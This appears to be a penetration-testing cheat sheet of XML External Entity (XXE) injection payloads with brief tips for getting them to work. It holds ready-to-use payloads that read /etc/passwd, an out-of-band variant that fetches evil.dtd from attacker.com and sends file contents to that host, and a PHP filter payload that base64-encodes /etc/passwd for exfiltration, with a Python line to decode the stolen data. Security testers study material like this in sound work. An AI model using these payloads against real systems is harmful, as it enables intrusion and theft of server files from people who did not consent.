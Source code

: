 # XXE

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<Content>&xxe;</Content>
</root>
```

Ensure that regardless of the format of your xml files, that there is only one root node.  Several parsers will refuse to validate the file and will error in the event of multiple root nodes.  As with all exploits, this isn't always the case, but if your exploit fails, this would be a good thing to ensure.

## Out-of-band XXE

```markup
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

#### evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

### PHP Filters

```markup
<!ENTITY % data SYSTEM " php://filter/read=zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

Result can be decoded using Python:

```python
zlib.decompress(base64.b64decode(req), -15) 
```

#### References

[Acunetix - Out-of-band XML External Entity \(OOB-XXE\)](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)  
[PayloadAllTheThings - XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections)  
[xxe\_oob\_exfil.py](https://gist.github.com/Reboare/49b309711222254eaf970e90388a7bdf)



